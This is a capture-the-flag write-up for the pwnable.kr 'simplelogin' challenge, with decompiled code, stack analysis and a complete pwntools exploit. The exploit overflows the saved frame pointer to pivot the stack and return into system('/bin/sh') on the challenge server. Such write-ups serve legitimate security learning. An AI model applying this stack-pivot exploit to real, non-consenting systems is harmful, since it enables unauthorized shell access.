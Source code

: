 # Pwnable.kr simplelogin CTF Writeup

## Problem Description
The code for this challnage is:
### main
```c
0804930d  int32_t main()

0804932d      void var_32
0804932d      sub_80482e0(&var_32, 0, 0x1e)
08049352      _IO_setvbuf(_IO_stdout, 0, 2, 0)
08049377      _IO_setvbuf(_IO_stdin, 0, 1, 0)
08049383      _IO_printf("Authenticate : ")
0804938c      void* var_4c = &var_32
08049397      __isoc99_scanf("%30s")
080493b3      sub_80482e0(0x811eb40, 0, 0xc)
080493b8      char* var_38 = nullptr
080493cf      int32_t eax_2 = Base64Decode(&var_32, &var_38)
080493cf      
080493dd      if (eax_2 u> 0xc)
0804941a          _IO_puts("Wrong Length")
080493dd      else
080493f6          memcpy(&input, var_38, eax_2)
080493f6          
0804940a          if (auth(eax_2) == 1)
0804940c              correct()
0804940c              noreturn
0804940c      
08049425      return 0
```
### auth
```c
0804929c  int32_t auth(int32_t arg1)

080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
080492cd      void var_18
080492cd      void* eax_1 = calc_md5(&var_18, 0xc)
080492d8      void* var_28 = eax_1
080492e3      _IO_printf("hash : %s\n")
080492e3      
080492fd      if (sub_80482f0("f87cd601aa7fedca99018a8be88eda34", eax_1) != 0)
08049306          return 0
08049306      
080492ff      return 1
```
### correct
```c
0804925f  void correct() __noreturn

08049276      if (input == 0xdeadbeef)
0804927f          _IO_puts("Congratulation! you are good!")
0804928b          __libc_system("/bin/sh")
0804928b      
08049297      exit(nullptr)
08049297      noreturn
```
The program gets an input that is encoded with base64, copies it to a fixed memory address, decode it, calculate its md5, comapre it to some hash, and then checks if its equal to 0xdeadbeef.
There is ASLR but PIE is disabled, so the addresses of the program code do not change.

## Analysis
The `auth()` function starts like this:
```c
080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
```
When we disassemble the `auth()` function, we get this:
```asm
0804929c  int32_t auth(int32_t arg1)

0804929c  55                 push    ebp {__saved_ebp}
0804929d  89e5               mov     ebp, esp {__saved_ebp}
0804929f  83ec28             sub     esp, 0x28
080492a2  8b4508             mov     eax, dword [ebp+0x8 {arg1}]
080492a5  89442408           mov     dword [esp+0x8 {var_24}], eax
080492a9  c744240440eb1108   mov     dword [esp+0x4], input
080492b1  8d45ec             lea     eax, [ebp-0x14 {var_18}]
080492b4  83c00c             add     eax {var_c}, 0xc
080492b7  890424             mov     dword [esp {var_2c}], eax {var_c}
080492ba  e8a1030200         call    memcpy
```
We can see from these lines:
```asm
lea     eax, [ebp-0x14 {var_18}]
add     eax {var_c}, 0xc
```
That the buffer `var_c` (which will coantian the input) is located in `[ebp-0x8]` (`-0x14 + 0xc = 0x8`). However, the max length we can give as an input is 12 bytes. That means that we can do buffer overflow on the stack.
The stack looks like this:
```
arg1
------------
return address
------------
saved ebp
------------
local varaibles
```
So in our case, it will look like this:
```
ebp+0x8 -> arg1
------------
ebp+0x4 -> return address
------------
ebp     -> saved ebp
------------
ebp-0x8 -> input
```
So if we can write only 12 bytes, it means that we can only overwrite the `saved ebp`.

## Exploit Code
```python
from pwn import *
import base64

context.log_level = 'info'
context(os='linux', arch='i386')

session = ssh(user='simplelogin', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9003'])

payload = b"A" * 4 # EBP junk value
payload += p32(0x08049278) # EIP address of system("/bin/sh")
payload += p32(0x0811eb40) # Address of the buffer I write to
payload = base64.b64encode(payload)
print(payload)

p.sendline(payload)
p.interactive()
```


